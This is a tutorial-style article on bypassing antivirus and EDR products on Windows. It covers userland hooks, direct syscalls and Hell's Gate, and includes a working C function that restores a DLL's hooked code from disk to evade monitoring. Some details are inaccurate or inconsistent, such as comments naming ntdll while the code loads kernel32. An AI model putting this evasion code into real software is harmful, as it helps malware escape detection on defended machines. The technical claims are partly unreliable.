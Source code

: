 # Endpoint Detection Response Security and Bypass
AV/EDR Security bypass written by Zero

## Table of contents
1. Introduction
2. Assembly code
3. Windows architecture
4. Syscall or system call
5. User-mode and Kernel-mode
6. Remapping a clean DLL
7. Direct use of syscall

## Introduction
Anyone who follows the malware community and company has come across the terms `Userland hooking`, `Syscalls`, `P/Invoke/`, `D-Invoke` and many more. Because of the increasing number of computer attacks, more and more companies are starting to create a security team (SOC) or a CERT. Their main goal is to prevent or identify and block potential attackers. EDR systems are therefore increasingly used. As a result, EDR bypassing is becoming more and more relevant. Before we dive into the main topic, we need to take a look at some basics of the Windows operating system architecture as well as a small part on assembly code. Feel free to skip this part.<br>
In this article I will discuss different techniques to bypass AV/EDR.
* Mapping a clean DLL in memory
* Direct use of syscall

## Assembly code
If you are writing a program, regardless of the language you will probably use a compiler to create the program. The code is transformed into machine language; at the end it is binary code, and can be directly executed by a CPU.
Some compilers, such as `gcc` for example, produce assembly code before translating it into machine language. Assembly code is the closest code to machine language and looks like this:<br>
![](https://i.imgur.com/j85R6jD.png)<br>
By disassembling via IDA Pro or Ghidra you will also get the assembly code.

## Windows architecture
Programmers generally don't want to reinvent the wheel, so basic functions are imported from existing libraries. For example `printf()` is imported via `stdio.h` in C language. For example Windows developers use an API, which can also be imported into a program. The so-called Win32 API is documented and consists of a multitude of library files (DLL-files), located in the `C:\windows\system32` folder, such as `kernel32.dll` or `User32.dll`.
Here is a diagram of the Windows architecture. There is a multitude of them, a Google search is enough to find some.<br>
![](https://i.imgur.com/EhSmSI2.png)<br>
`ntdll.dll` is not part of the Win32 API and is not officially documented.

## Syscall or system call
What are direct system calls? If you've worked with old OS, you might remember that a simple application crash could result in a complete system crash. This was because the OS was running in `Real-mode`, which means that the processor is running in a mode where no memory isolation and protection is applied. A bug could result in a complete crash. Annoying, right?<br>
Now, there's a `Protected-mode`. It introduce many safeguards and can protect the system from crashes by isolating running programs from each other using virtual memory and privilege levels or ring. On a Windows system, there's two rings that are actually used. Application are running in `User-mode` which is equivalent to `Ring 3` and critical system components like the kernel and device drivers are running in `Kernel-mode`, which is equivalent to `Ring 0`.<br>
When an application needs to switch into the Ring 0, it gives the execution flow into Kernel-mode. This is where system calls come in.<br>
Using a picture might be easier to understand. So here it is:<br>
![](https://i.imgur.com/ptu7lVG.png)<br>

## User-mode and Kernel-mode
The Windows OS has two different privilege levels, which have been implemented to protect the OS from possible crashes caused by applications. All applications installed on a Windows system run in the so-called `User-mode`. The kernel and drivers run in `Kernel-mode`. Applications in User-mode cannot access or manipulate memory in Kernel-mode. AV/EDR systems can only monitor the behavior of applications in User-mode, because of `Kernel Patch Protection`. And the very last instance of User-mode is composed of the Windows API functions of `ntdll.dll`. If a function of `ntdll.dll` is called, the CPU goes into Kernel-mode, and it is not monitored by AV/EDR anymore. The functions of `ntdll.dll` are called syscalls.

## Remapping a clean DLL
If your program loads certain functions from `kernel32.dll` or `ntdll.dll`, a copy of the library file is loaded into memory. One of the EDR detection mechanisms is the use of "hooking userland". This method modifies `ntdll.dll` directly in the process memory in order to monitor its calls to the WinAPI. What they do is that they (usually) modify the in-memory copy and place a JMP assembler instruction at the beginning of the code to redirect the Windows API function to an inspection code of the AV/EDR software itself. Therefore, before calling the real function, an analysis is performed. If no suspicious behavior is detected, the original Windows API function is then called. If the opposite is true, the call is blocked or the process is killed. Here is a nice image from ired.team that helps to understand better:<br>
![](https://i.imgur.com/ZAonrfi.png)<br>
There is a technique to get rid of the hooks placed in the DLL. The problem is that it is possible to have to patch differently for each AV/EDR. The idea of this technique is based on the fact that the dll as it is on the disk is healthy, so it is enough to overwrite the DLL in memory with the DLL on the disk.
By applying this method we get a healthy `.text` section in memory, and we bypass the hooks posed by the EDR.<br>
To use this technique you need to know the exact NTDLL.dll functions needed for your project and extract the corresponding assembler code for them via disassembling. Afterwards you need to build an ASM-file containing all different offsets for different Windows OS-Versions. Sounds complicated. <br>
Using this technique will enable us to bypass `Userland-Hooking` in general, so regardless of the seller of the AV/EDR. **But** as soon as a new Windows version is released, it won't work anymore.<br>
It is possible to add a function for this, or you can use two tools:
* [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
* [InlineWhispers](https://github.com/outflanknl/InlineWhispers)<br>
<br>
In case you want to add the function, this is what it should look like:

```c
int unHookAll() { 
  HANDLE process = GetCurrentProcess();
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("kernel32.dll");
    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\kernel32.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            BOOL isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }
   
    CloseHandle(process);
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);

    return 0;
}
```

Here is what this code does:
* we map the kernel32.dll in memory.
* look for the address of the text section of the hooked dll
* get the protections present on the hooked dll
* copy the text section of the original dll into the text section of the hooked dll.
* put back the protections previously applied.

## Direct use of syscalls
The EDR sets its hooks in "userland", so it will inspect the parameters of a WinAPI function that will link to a syscall. But what happens when we use directly the syscall?<br>
In x64, Windows makes the transition between userland and kernelland via syscalls. If we look at the `NtWriteFile` function in `ntdll.dll` we can clearly see how Windows prepares the jump to kernel-land. It first moves the right value in eax and then jumps to kernel land and uses the SSDT "System Service Dispatch Table" to find the api corresponding to the requested syscall. What is interesting to notice is that here only the assignment of a value to eax and the syscall are important: if we prepare the stack with the desired arguments we will be able to call the syscall directly and therefore not go through the EDR hooks.<br>
So we can simply turn our WinAPI calls into direct syscall. Thus, if an EDR uses hooks on these WinAPI functions, it would no longer be able to detect the malware (at least not in this way).<br>
One slight problem... system call numbers change between OS version and sometimes even between built. Luckily, j00ru from Google project Zero created an [online system calls table](https://j00ru.vexillium.org/syscalls/nt/64/). He did an amazing job keeping up with all systems numbers, so you have a great resource there.<br>
All we need to do is to get information about the OS version we are using and create references between the native API function definitions and OS version specific system call functions in assembly language. For this we can use the `RtlGetVersion` routine and save the version. Once this is done we can use the system calls in our code as if they were normal functions.<br>
<br>
However, that is not the best way. 
### Introducing Hell's Gate
Hell's Gate is the name given by @am0nsec and @RtlMateusz in [this paper](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf). The idea is to find the syscalls dynamically on the host by reading through `ntdll.dll` and call them from our own implementation. 
